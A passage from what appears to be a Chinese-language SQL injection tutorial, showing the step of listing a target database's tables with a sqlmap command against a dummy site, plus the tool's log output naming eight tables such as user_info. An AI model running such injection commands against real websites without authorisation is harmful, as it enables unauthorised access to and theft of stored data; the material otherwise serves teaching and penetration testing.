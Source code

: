 ## 0x03 列出目标数据库的表

* * *

现在我们需要知道在数据库 sqldummywebsite 中都有哪些表，为了弄清这些信息，我们使用下面的命令：

```
sqlmap -u http://www.sqldummywebsite.com/cgi-bin/item.cgi?item_id=15 -D sqldummywebsite --tables 
```

我们发现这个数据有 8 张表：

```
[10:56:20] [INFO] fetching tables for database: 'sqldummywebsite'
[10:56:22] [INFO] heuristics detected web page charset 'ISO-8859-2'
[10:56:22] [INFO] the SQL query used returns 8 entries
[10:56:25] [INFO] retrieved: item
[10:56:27] [INFO] retrieved: link
[10:56:30] [INFO] retrieved: other
[10:56:32] [INFO] retrieved: picture
[10:56:34] [INFO] retrieved: picture_tag
[10:56:37] [INFO] retrieved: popular_picture
[10:56:39] [INFO] retrieved: popular_tag
[10:56:42] [INFO] retrieved: user_info 
```

![2014052914585030373_png.jpg](img/img2_u28_jpg.jpg)
